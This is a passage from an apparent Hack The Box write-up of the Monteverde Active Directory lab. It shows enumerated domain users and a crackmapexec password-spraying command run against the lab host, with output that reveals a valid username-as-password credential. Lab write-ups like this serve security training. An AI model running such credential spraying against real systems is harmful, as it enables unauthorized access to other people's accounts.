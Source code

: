 ```
index: 0xfd2 RID: 0xa37 acb: 0x00000210 Account: smorgan        Name: Sally Morgan      Desc: (null)
index: 0xfc6 RID: 0xa2b acb: 0x00000210 Account: svc-ata        Name: svc-ata   Desc: (null)
index: 0xfc7 RID: 0xa2c acb: 0x00000210 Account: svc-bexec      Name: svc-bexec Desc: (null)
index: 0xfc8 RID: 0xa2d acb: 0x00000210 Account: svc-netapp     Name: svc-netapp        Desc: (null)

```

I did some looking at each use and group, but didn’t identify anything that interesting.

## Shell as mhope

### Credential Brute Force

After poking around at other things and finding very little, I came back to the usernames I had. I created a file with one user per line, and one of the things I checked was if any used their username as their password by running the following `crackmapexec`. This can be a form a password spraying, because I really only want to check one password for each user. Because my list is small and this is HTB, I’ll just try each user with each username as the password. In a real environment, I’d only want to try each user with their username:

```

root@kali# crackmapexec smb 10.10.10.172 -u users -p users --continue-on-success
SMB         10.10.10.172    445    MONTEVERDE       [*] Windows 10.0 Build 17763 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:AAD_987d7f2f57d2 STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:dgalanos STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:SABatchJobs STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:smorgan STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:svc-ata STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:svc-bexec STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:svc-netapp STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\dgalanos:AAD_987d7f2f57d2 STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\dgalanos:dgalanos STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\dgalanos:SABatchJobs STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\dgalanos:smorgan STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\dgalanos:svc-ata STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\dgalanos:svc-bexec STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\dgalanos:svc-netapp STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\SABatchJobs:AAD_987d7f2f57d2 STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\SABatchJobs:dgalanos STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK.LOCAL\SABatchJobs:SABatchJobs 
...[snip]...

```

